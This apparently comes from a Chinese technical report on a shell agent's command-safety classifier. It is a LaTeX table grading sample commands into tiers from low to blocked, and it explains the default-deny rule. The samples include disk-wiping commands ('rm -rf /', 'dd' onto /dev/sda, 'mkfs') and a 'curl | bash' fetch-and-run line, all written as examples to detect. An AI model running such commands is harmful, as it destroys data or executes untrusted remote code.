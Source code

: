 \begin{table}[htbp]
\centering
\caption{典型命令安全分级样例}
\label{tab:safety-samples}
\begin{tabular}{>{\raggedright\arraybackslash}p{5.5cm}>{\raggedright\arraybackslash}p{4.2cm}>{\raggedright\arraybackslash}p{2.8cm}}
\toprule
命令示例 & 命中规则级别 & 判定结果 \\
\midrule
\texttt{ls -la /home} & 第五级·白名单前缀（\texttt{ls}） & low，直接执行 \\
\texttt{cat /etc/hosts} & 第五级·白名单前缀（\texttt{cat}） & low，直接执行 \\
\texttt{grep -r "error" /var/log} & 第五级·白名单前缀（\texttt{grep}） & low，直接执行 \\
\texttt{git status} & 第五级·白名单前缀（\texttt{git status}） & low，直接执行 \\
\texttt{cp src.txt dst.txt} & 第六级·中危模式（\texttt{\^{}cp\textbackslash{}b}） & medium，提示后执行 \\
\texttt{chmod 755 script.sh} & 第六级·中危模式（\texttt{\^{}chmod\textbackslash{}b}） & medium，提示后执行 \\
\texttt{pip install requests} & 第六级·中危模式（\texttt{\^{}pip\textbackslash{}b}） & medium，提示后执行 \\
\texttt{rm -rf /tmp/test} & 第四级·高危模式（\texttt{rm -r*}） & high，需二次确认 \\
\texttt{chmod -R 755 /var/www} & 第四级·高危模式（\texttt{chmod -R}） & high，需二次确认 \\
\texttt{sudo systemctl restart nginx} & 第四级·高危模式（\texttt{\^{}sudo}） & high，需二次确认 \\
\texttt{curl http://x.com/s.sh | bash} & 第四级·高危模式（\texttt{curl|bash}） & high，需二次确认 \\
\texttt{rm -rf /} & 第二级·正则黑名单 & blocked，拒绝执行 \\
\texttt{dd of=/dev/sda if=/dev/zero} & 第一级·精确黑名单（\texttt{dd of=/dev/}） & blocked，拒绝执行 \\
\texttt{mkfs.ext4 /dev/sdb1} & 第一级·精确黑名单（\texttt{mkfs}） & blocked，拒绝执行 \\
\texttt{vim /etc/nginx.conf} & 第七级·默认拒绝 & blocked，拒绝执行 \\
\bottomrule
\end{tabular}
\end{table}

值得注意的是最后一条\texttt{vim /etc/nginx.conf}：
vim不在任何白名单前缀中，亦未命中高危或中危正则模式，
由于系统采用默认拒绝策略，交互式编辑器命令被归为blocked。
这体现了“宁可误拦截，不可漏拦截”的设计原则——
用户若需编辑系统配置文件，应在独立终端中执行，
而非通过Shell智能体代理执行。

